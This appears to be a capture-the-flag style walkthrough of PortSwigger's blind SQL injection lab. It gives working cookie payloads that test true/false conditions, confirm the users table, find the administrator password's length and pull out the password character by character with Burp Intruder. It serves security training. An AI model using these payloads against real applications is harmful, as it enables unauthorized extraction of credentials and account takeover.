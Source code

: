 # Write-up: Blind SQL injection with conditional responses

![logo](img/logo.png)

This write-up for the lab *Blind SQL injection with conditional responses* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![Lab description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In the example case, the cookie contains this content
`Cookie: TrackingId=qnLH78fKAPMJdjw7; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can not see any result of the query. However, if we can craft requests that allow for dedicated `good` and `bad` answers, we can ask the database anything it can answer with `TRUE` or `FALSE`.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `good` or `bad` answers.

#### The good case

For the `good` query, we take an input that always evaluates to `TRUE`, like `1=1`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=1--'
```

The content of the cookie is

// 📝 SEND THE REQUEST IN REPEATER AND CHECK THE RESPONSE — VERY IMPORTANT

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=1--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Results in "Welcome back"

#### The bad case

For the `good` query, we take an input that always evaluates to `FALSE`, like `1=2`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=2--'
```

The content of the cookie is

// 📝 CHECK THE RESPONSE — VERY IMPORTANT

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=2--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Does not result in "Welcome back"

As we found a vulnerable parameter, I omit the session value from now on.

### Confirm expected table

First I confirm that the `users` table exists. For this, I select a string literal from the table and compare the result to the literal.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from users LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from users LIMIT 1)='x'--`

--> Results in "Welcome back"

#### Verify negative result

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from usersX LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from usersX LIMIT 1)='x'--`

--> NO "Welcome back"

### Verify columns exist as expected

Now onto the same verification regarding the column names

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--`

--> Results in "Welcome back". Negative case with a different column name verified.

### Get the length of the password (could be hash as well)

Find out the length of the password. For this, we use the `LENGTH` function of the database and compare it with numbers.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--`

--> NO "Welcome back", the password is not of length 1

As an alternative, I can check with '>' instead of '='. It results in the "Welcome back" message meaning the password is longer than 1 character.

I Brute force the length with Burp Intruder (Sniper, Payload is '1' argument in query)

// 📝 RIGHT-CLICK ON THE REQUEST TAB IN REPEATER AND SEND TO INTRUDER.

THEN HIGHLIGHT 1 IN THE REQUEST PAYLOAD AND CLICK ADD.

PAYLOAD TYPE → SELECT NUMBERS AND SET CONFIGURATION FROM 1 TO 100.

![Payload_example](img/payload.png)

START THE ATTACK AND AFTER IT IS FINISHED, LOOK FOR THE HIGHEST LENGTH.

IN THAT REQUEST RESPONSE YOU’LL SEE LENGTH WHERE PASSWORD = 20 IS CORRECT, SO YOU ARE WELCOMED BACK.
![Payload_results](img/responce.png)

--> Password is exactly 20 characters long

### Enumerate password of the administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--`

We find out that the first character is not an `a`, but using Burp Suite Intruder this can be automated easily. With the free version, this is rather slow, but scripting it in python is not difficult either.

// 📝 SEND THE REQUEST WITH A NEW PAYLOAD TO INTRUDER AND HIGHLIGHT 'a'. THEN FOLLOW THE PIC ~~ THE HIGHEST LENGTH INDICATES THE FIRST LETTER.

![Enumerate the first character of the password](img/enumerate_password_first.png)

The first character is 'k'

#### Automate this

Now automate this for all characters, again using either Burp Intruder or a python script.

Attack type: *Cluster bomb*

![Cluster bomb setup](img/enumerate_password_cluster_bomb.png)

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force (see above) - for real-life, add special characters
  
// 📝 ADD 'WELCOME BACK' IN VIEW FILTER

This results in these responses with the 'Welcome Back' message:

![Result of password enumeration](img/enumerate_password_result.png)

Reordering it numerically according to Payload 1 will result in the password: kdd113dnq7t34h70nhj7

// 📝 YOUR PASSWORD WILL BE DIFFERENT EACH TIME. NOTE DOWN YOUR PASSWORD AND USE IT TO LOGIN

## Try login

With the credentials obtained I log in and the lab updates to

![Login successful](img/Win.png)
